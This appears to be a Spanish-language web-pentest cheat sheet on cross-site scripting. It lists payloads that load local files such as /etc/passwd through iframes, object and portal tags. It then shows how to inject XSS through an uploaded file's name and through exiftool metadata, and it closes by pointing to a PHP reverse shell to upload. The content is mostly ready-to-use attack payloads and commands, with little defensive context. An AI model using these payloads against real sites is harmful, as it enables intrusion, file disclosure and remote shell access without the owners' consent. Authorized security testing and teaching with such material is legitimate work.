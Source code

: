 ```javascript
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```

```javascript
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</scrip>
```

Cargas utiles que puede combinar con los ejempolos anteriores:

```javascript
<iframe src=file:///etc/passwd></iframe>
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///root/secret.txt">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id=portal>
```

## XSS VIA FILE UPLOAD

Supongamos que puede subir una imagen en formato jpg a la pagina, puede validar lo siguiente:

1. Cambie el nombre de la imagen a lo siguiente:

```javascript
"><img src=x onerror=prompt(1)>
```

Y que dara como: **"\>\<img src=x onerror=prompt(1)\>.jpg**

2. Cargue la imagen y si es vulnerable la aplicacion podra ver un promt.

Otra forma es mediante la modifiaccion de los metadatos de la imagen:

1. Vea los metadatos de una imagen usando exiftool.

```bash
./exiftool foto.jpg
```

2. Modifique un valor de un metadato que admita un contenido como el anterior (**"\>\<img src=x onerror=prompt(1)\>.jpg**). Puede que File size, File type u otro no se lo permita. En este caso se modificara el metadato author.

```bash
./exiftool -Author='"><img src=x onerror=prompt(document.domain)>' foto.jpg -w
```

3. Cargue la imagen modificada y puede que obtenga la salida de un prompt.

[https://medium.com/@lucideus/xss-via-file-upload-lucideus-research-eee5526ec5e2](https://medium.com/@lucideus/xss-via-file-upload-lucideus-research-eee5526ec5e2)

## REVERSE SHELL MEDIANTE XSS Y FILE UPLOAD

Puede cargar una reverse shell en php o el lenguaje que interprete la pagina, en este caso usaremos la reverse shell de monkey pentester:

[http://pentestmonkey.net/tools/web-shells/php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
